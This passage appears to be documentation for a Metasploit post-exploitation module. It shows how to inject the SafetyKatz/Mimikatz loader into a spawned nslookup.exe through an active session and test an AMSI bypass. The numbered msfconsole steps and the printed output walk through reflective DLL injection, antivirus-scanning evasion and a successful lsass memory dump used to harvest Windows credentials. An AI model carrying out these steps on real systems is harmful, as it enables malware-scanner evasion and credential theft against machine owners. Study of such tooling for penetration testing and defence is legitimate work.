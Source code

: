   Example 3 perform the functionality test of the Amsi bypass.
  To perform the test it is necessary to use an assembly that runs 
  Assembly.Load to load an assembly that we know to be detected. 
  In the following example we use SafetyKatz which dynamically 
  loads Mimikatz via Assmbly.Load
  
  1. Start Clone from github SafetyKatz or other .Net progect
  2. Buid project with target framework 4.x
  2. Start msfconsole
  4. Do: ```use post/windows/manage/execute_dotnet_assembly```
  5. Do: ```set SESSION sessionid```
  6. Do: ```set PID 8648```
  7. Do: ```set DOTNET_EXE /your/output/folder/SafetyKatz.exe```
  8. Do: ```set ARGUMENTS user```
  9. Do: ```set PROCESS nslookup.exe```
  10. Do: ```set AMSIBYPASS false```
  11. Do: ```run```
  12. You should get something like that follow

```
msf5 post(windows/manage/execute_dotnet_assembly) > run

[*] Launching nslookup.exe to host CLR...
[+] Process 19904 launched.
[*] Reflectively injecting the Host DLL into 19904..
[*] Injecting Host into 19904...
[*] Host injected. Copy assembly into 19904...
[*] Assembly copied.
[*] Executing...
[*] Start reading output
[+] Server predefinito:  
[+] Address:  192.168.1.1
[+] 
[+] > 
[*] End output.
[+] Killing process 19904
[+] Execution finished.
[*] Post module execution completed
msf5 post(windows/manage/execute_dotnet_assembly) >
```

Than

  1. Do: ```set AMSIBYPASS true```
  2. Do: ```run```
  
```
msf5 post(windows/manage/execute_dotnet_assembly) > set amsibypass true
amsibypass => true
msf5 post(windows/manage/execute_dotnet_assembly) > run

[*] Launching nslookup.exe to host CLR...
[+] Process 19568 launched.
[*] Reflectively injecting the Host DLL into 19568..
[*] Injecting Host into 19568...
[*] Host injected. Copy assembly into 19568...
[*] Assembly copied.
[*] Executing...
[*] Start reading output
[+] Server predefinito:  
[+] Address:  192.168.1.1
[+] 
[+] > 
[+] [*] Dumping lsass (744) to C:\WINDOWS\Temp\debug.bin
[+] [+] Dump successful!
[+] 
```